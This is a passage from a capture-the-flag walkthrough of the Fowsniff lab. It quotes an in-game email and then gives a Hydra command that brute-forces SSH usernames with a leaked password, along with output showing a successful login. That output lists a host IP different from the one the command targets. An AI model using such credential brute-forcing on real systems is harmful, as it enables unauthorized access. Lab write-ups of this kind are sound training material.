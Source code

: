 ```
From: baksteen@fowsniff

Devin,

You should have seen the brass lay into AJ today!
We are going to be talking about this one for a looooong time hahaha.
Who knew the regional manager had been in the navy? She was swearing like a sailor!

I don't know what kind of pneumonia or something you brought back with
you from your camping trip, but I think I'm coming down with it myself.
How long have you been gone - a week?
Next time you're going to get sick and miss the managerial blowout of the century,
at least keep it to yourself!

I'm going to head home early and eat some chicken soup. 
I think I just got an email from Stone, too, but it's probably just some
"Let me explain the tone of my meeting with management" face-saving mail.
I'll read it when I get back.

Feel better,

Skyler

PS: Make sure you change your email password. 
AJ had been telling us to do that right before Captain Profanity showed up.
```

## 🔐 SSH Login (via Hydra)

In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.
Use Hydra to brute-force usernames with known password:

```shell
hydra -p S1ck3nBluff+secureshell -L /home/username/Documents/THM/Fowsniff_CTF/users ssh://10.10.242.74
```

**Result:**

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-21 08:52:41
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:9/p:1), ~1 try per task
[DATA] attacking ssh://10.10.242.74:22/
[22][ssh] host: 10.10.238.253   login: baksteen   password: S1ck3nBluff+secureshell
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-21 08:52:45
```
